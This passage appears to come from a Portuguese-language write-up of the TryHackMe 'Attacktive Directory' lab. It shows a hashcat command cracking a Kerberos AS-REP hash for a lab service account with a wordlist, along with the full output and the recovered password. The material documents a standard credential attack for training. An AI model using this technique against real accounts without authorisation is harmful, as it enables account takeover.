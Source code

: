Ao executar o comando, temos o seguinte resultado:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/AttacktiveDirectory                                       17:00:34
╰──➤ hashcat -m 18200 hash.txt passlist.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-6200U CPU @ 2.30GHz, 1420/2904 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: passlist.txt
* Passwords.: 70188
* Bytes.....: 569236
* Keyspace..: 70188

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f9dc7f8e405ced94d5a484133ec7ce55$c120918b5ea1549e9f8728e82d06f8290df0ef3342d168201252df5e4e1f96d53b5911ed96c12a4876a94ec9fdabed3c2a0ff6624bea2d97f81b6bcff6eea9dbe3d7afb86e10c4cc42a21d6739a8eb8c4c6f91b7a1b036f819f3f437e0564468643e0e25fe736fed951424632e9fc7484ae9ad7bdc94c54d6c09f3e6e5e889d06233718ad41602a4c78b3366a58c9836a365494e82f1a23524bb102fea4606f009360139d8070c2e6d6fe924a3db8f2019f58744882a2e363e611baeb0af3ee82d8ef157de727ac8ddfd757141bd5b319db60b098696a17894c5dd6b43d2f228e2e36c1b44b71b832706707651ceb2e77604:management2005

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f9dc7f8e405...e77604
Time.Started.....: Tue Mar 28 17:00:45 2023 (0 secs)
Time.Estimated...: Tue Mar 28 17:00:45 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   482.4 kH/s (0.74ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 7168/70188 (10.21%)
Rejected.........: 0/7168 (0.00%)
```